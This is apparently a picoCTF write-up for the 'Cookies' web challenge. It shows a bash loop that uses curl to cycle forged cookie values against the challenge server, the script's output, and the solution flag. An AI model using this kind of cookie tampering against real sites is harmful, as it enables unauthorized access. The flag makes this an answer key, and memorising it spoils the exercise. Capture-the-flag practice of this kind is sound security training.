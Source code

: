 # Cookies

## Overview

* Points: 40
* Category: Web Exploitation
* Author: Madstacks

## Description
> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## Hints

1. None!

## Approach

1. The webpage contains a form with a placeholder value. If we input "snickerdoodle" (as suggested by the placeholder value) we get a page containing the following message: "That is a cookie! Not very special though...". If we try to input a different value, the message will say: "That doesn't appear to be a valid cookie."
2. In the DevTools we can see a cookie called "name" with a set value of -1, which will be sent to the server when we use the form. As the description suggests, we have to find the best value to sent to the server!
3. To achieve this, we can write a quick [bash script](cookie_baker.sh) using the cURL tool to send a homemade cookie (nice joke, am I right?)
```bash
for i in {1..30}; do
        echo "Testing with \"Cookie: name=$i\""
        contents=$(curl -s http://mercury.picoctf.net:54219/ -H "Cookie: name=$i; Path=/" -L)
        echo $contents | grep "pico"
done
```
4. As we can see by the following output given by the script, 18 was the correct value:
```bash
Testing with "Cookie: name=1"
Testing with "Cookie: name=2"
Testing with "Cookie: name=3"
Testing with "Cookie: name=4"
Testing with "Cookie: name=5"
Testing with "Cookie: name=6"
Testing with "Cookie: name=7"
Testing with "Cookie: name=8"
Testing with "Cookie: name=9"
Testing with "Cookie: name=10"
Testing with "Cookie: name=11"
Testing with "Cookie: name=12"
Testing with "Cookie: name=13"
Testing with "Cookie: name=14"
Testing with "Cookie: name=15"
Testing with "Cookie: name=16"
Testing with "Cookie: name=17"
Testing with "Cookie: name=18"
<!DOCTYPE html> <html lang="en"> <head> <title>Cookies</title> <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet"> <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet"> <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script> <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script> </head> <body> <div class="container"> <div class="header"> <nav> <ul class="nav nav-pills pull-right"> <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a> </li> </ul> </nav> <h3 class="text-muted">Cookies</h3> </div> <div class="jumbotron"> <p class="lead"></p> <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p> </div> <footer class="footer"> <p>&copy; PicoCTF</p> </footer> </div> </body> </html>
#the flag is near the end of this HTML code
Testing with "Cookie: name=19"
Testing with "Cookie: name=20"
Testing with "Cookie: name=21"
...
```

## Flag

<details>
<summary>Click to view the flag</summary>

__picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}__
</details>